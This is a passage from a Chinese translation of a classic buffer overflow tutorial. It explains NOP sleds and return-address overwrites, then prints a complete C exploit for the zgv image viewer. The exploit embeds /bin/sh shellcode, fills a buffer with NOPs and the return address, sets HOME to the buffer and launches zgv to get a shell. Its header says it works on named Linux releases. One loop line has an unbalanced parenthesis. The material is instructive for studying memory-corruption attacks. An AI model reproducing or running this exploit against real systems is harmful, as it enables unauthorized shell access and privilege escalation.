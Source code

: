 ‍‍‍‍那么，在故障时间时在栈顶，安全的假设是我们能够使用这作为我们shellcode的返回地址。

现在我们要在我们的缓冲区前增加一些NOP指令，所以我们没有必要关注对于内存中的精确开始我们shellcode预测的100%正确。这个函数将会在我们的shellcode之前返回到栈，通过使用NOPs的方式来初始化JMP命令，跳转到CALL，跳转到popl，在栈中运行我们的代码。

记住，栈是这样的。在最低级的内存地址，ESP指向栈的顶部，初始变量被储存，即缓冲器中的zgv储存了HOME环境变量。在那之后，我们保存了EBP和前一个函数的返回地址。我们必须要写8个字节或是更多在缓冲区后面，用栈中的新的地址来覆盖返回地址。

Zgv的缓冲器有1024个字节。你可以通过扫视代码来发现，或是通过在脆弱的函数中搜索初始化的subl $0×400,%esp (=1024)。我们可以把这些放在一起来利用。‍‍‍‍

**5a zgv攻击实例**

```
/*                   zgv v3.0 exploit by Mixter
          buffer overflow tutorial - http://1337.tsx.org

        sample exploit, works for example with precompiled
    redhat 5.x/suse 5.x/redhat 6.x/slackware 3.x linux binaries */

#include <stdio.h> #include <unistd.h> #include <stdlib.h>  
/* This is the minimal shellcode from the tutorial */
static char shellcode[]=
"\xeb\x17\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d"
"\x4e\x08\x31\xd2\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58";

#define NOP     0x90
#define LEN     1032
#define RET     0xbffff574

int main()
{
char buffer[LEN];
long retaddr = RET;
int i;

fprintf(stderr,"using address 0x%lx\n",retaddr);

/* this fills the whole buffer with the return address, see 3b) */
for (i=0;i<LEN;i+=4)
   *(long *)&buffer[i] = retaddr;

/* this fills the initial buffer with NOP's, 100 chars less than the
   buffer size, so the shellcode and return address fits in comfortably */
for (i=0;i<LEN-strlen(shellcode)-100);i++)
   *(buffer+i) = NOP;   /* after the end of the NOPs, we copy in the execve() shellcode */  memcpy(buffer+i,shellcode,strlen(shellcode));
  /* export the variable, run zgv */   setenv("HOME", buffer, 1); execlp("zgv","zgv",NULL); return 0;
}
  /* EOF */   We now have a string looking like this:

[ ... NOP NOP NOP NOP NOP JMP SHELLCODE CALL /bin/sh RET RET RET RET RET RET ]
  While zgv's stack looks like this:

v-- 0xbffff574 is here
[     S   M   A   L   L   B   U   F   F   E   R   ] [SAVED EBP] [ORIGINAL RET]

The execution thread of zgv is now as follows:

main ... -> function() -> strcpy(smallbuffer,getenv("HOME"));
```

